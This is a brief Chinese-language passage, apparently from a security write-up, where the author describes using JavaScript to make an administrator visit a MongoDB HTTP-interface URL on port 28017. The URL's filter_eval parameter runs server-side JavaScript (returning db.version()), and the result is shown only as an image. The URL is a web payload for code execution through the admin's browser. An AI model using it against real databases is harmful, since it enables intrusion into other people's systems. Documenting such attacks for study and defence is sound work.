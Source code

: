 ![enter image description here](img/img3_u100_jpg.jpg)

例如，我利用 js 代码让管理员访问 http://xxx.com:28017/admin/$cmd/?filter_eval=function()%7B%20return%20db.version()%20%7D&limit=1

返回结果：

![enter image description here](img/img4_u82_jpg.jpg)
